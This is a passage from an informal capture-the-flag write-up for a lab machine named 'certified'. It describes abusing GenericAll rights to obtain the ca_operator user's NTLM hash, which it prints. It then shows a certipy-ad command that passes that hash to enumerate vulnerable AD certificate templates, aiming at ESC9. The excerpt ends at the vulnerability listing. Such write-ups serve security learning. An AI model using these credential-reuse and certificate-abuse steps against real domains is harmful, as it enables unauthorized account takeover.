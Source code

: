 ```powershell
```

now we have GenericAll for user ca_operator so we can grab his hash with cerrtipy again

### GenericAll
![alt text](../assets/images/Screenshot_2025-03-12_22_35_51.png)
we have ca_operator hash rn!!!!

ca_operator : b4b86f45c6018f1b664f70805f45d8f2

its seems like Certificate users maybe its about ESCX

## ESC9

```sh
➜  certified certipy-ad find -dc-ip 10.10.11.41 -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -ns 10.10.11.41 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication

    [!] Vulnerabilities
```